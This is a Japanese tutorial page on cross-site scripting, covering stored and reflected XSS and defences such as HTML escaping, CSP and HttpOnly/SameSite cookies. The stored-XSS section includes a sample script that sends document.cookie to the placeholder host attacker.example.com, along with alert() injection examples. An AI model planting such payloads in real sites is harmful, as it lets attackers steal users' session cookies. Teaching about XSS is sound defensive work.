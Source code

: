 ```yaml
---
title: "XSS (Cross-Site Scripting)"
draft: false
weight: 999
---
```


XSS攻撃は、攻撃者が悪意あるスクリプトをユーザに実行させるものです。
攻撃対象のサイトにアクセスしたユーザの cookie 情報を漏洩させたり、Web ページを改ざんすることができます。

## 持続型 XSS（stored）

持続型 XSS は、攻撃用の JavaScript が攻撃対象のサイトに保存されているタイプの XSS です。
攻撃者の悪意ある入力がデータベースに保存され、他のユーザがサイトにアクセスした際に実行されます。

例えば、チャットアプリで攻撃者が次のように投稿するとします。

```html
<script>alert("Hacked!");</script>
```

エスケープなどの適切な処理をされていない場合、ユーザがチャットアプリにアクセスして攻撃者の投稿を表示すると、上記の script が実行されます。`alert` だけであれば問題は少ないかもしれませんが、以下のような script にすれば cookie を攻撃者に送信することができてしまいます。

```html
<script>
  var xhr = new XMLHttpRequest();
  xhr.open("POST", "https://attacker.example.com/steal-data", true);
  xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
  xhr.send("cookie=" + document.cookie);
</script>
```

## 反射型 XSS（reflected）

反射型 XSS は、攻撃用の JavaScript が攻撃対象のサイトに保存されていないタイプの XSS です。持続型 XSS と比べて影響範囲は限定的となります。

例として、攻撃者が偽サイトのリンクやメール、SNS の URL に次のようなリンクを仕込んでおく場合を考えます。

```html
https://victim.example.com/search?q=<script>alert('Hacked!');</script>
```

攻撃対象のサイトでパラメータを適切に処理していないと、script が実行されてしまう場合があります。
先程の例と同様、実行されるのが `alert` とは限らない点が問題です。

偽サイトの中に `iframe` で攻撃対象のサイトを埋め込んでおいてセッション ID を盗む例や、フォームの入力欄の XSS 脆弱性を利用して攻撃者に情報を送信するように改ざんしたフォームに書き換える方法などもあります。

## 対策

XSS 脆弱性が発生する主な要因は、HTML 生成時に特殊記号をエスケープする処理が抜けていることです。
根本的な対策としては、`<p>text</p>` の `text` や `<input name="foo" value="val">` の `val` のような要素内容や属性値内の特殊記号を、以下の表に示すようにもれなくエスケープする必要があります。

| 特殊記号 | エスケープ |
| -------- | ---------- |
| <        | `&lt;`     |
| >        | `&gt;`     |
| &        | `&amp;`    |
| "        | `&quot;`   |
| '        | `&#39;`    |

さらに、以下の対策を行うと良いです。

- Webサーバの設定でXSSフィルタを有効にするレスポンスヘッダを返す
  - Content Security Policy (CSP): サーバのレスポンスヘッダによって制御され、外部コンテンツの読み込みやスクリプトの実行などを制限するためのセキュリティポリシー
  - X-XSS-Protection: 古いブラウザでは実装が異なるか、またはサポートされていないことがあるため、現在は非推奨とされており、CSPが推奨される
- 入力値のサニタイズを行う（例：数字のみ、英字のみ、文字制限）
- Cookieの設定を工夫する
  - HttpOnly: JavaScriptでCookieを読めなくする設定
  - SameSite: 異なるドメインからのリクエストでCookieを読めなくする設定。制限の種類があるため、使用時には適切なものを選択する必要がある

## 参考

- 徳丸 浩、「体系的に学ぶ 安全なWebアプリケーションの作り方 第2版」
